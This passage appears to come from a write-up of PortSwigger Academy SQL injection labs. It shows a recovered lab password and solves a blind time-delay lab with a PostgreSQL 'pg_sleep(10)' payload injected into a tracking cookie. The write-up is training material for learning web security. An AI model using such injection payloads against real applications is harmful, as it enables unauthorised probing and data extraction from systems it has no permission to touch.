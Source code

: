We get the first letter is "0":

![img](media/6d3f1f843a5d0a49d5bcd0178d009b12.png)

If we continue we get the password 01k6j5tbrjpd9lpdk4zs

13 Blind SQL injection with time delays
=======================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows or causes an
error. However, since the query is executed synchronously, it is possible to
trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second
delay.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie. It uses PostgreSQL, sleep 10 seconds
with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TGjY2hbNNRAamLIb'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/e48cb0518d2c197702a54fe13be22be3.png)
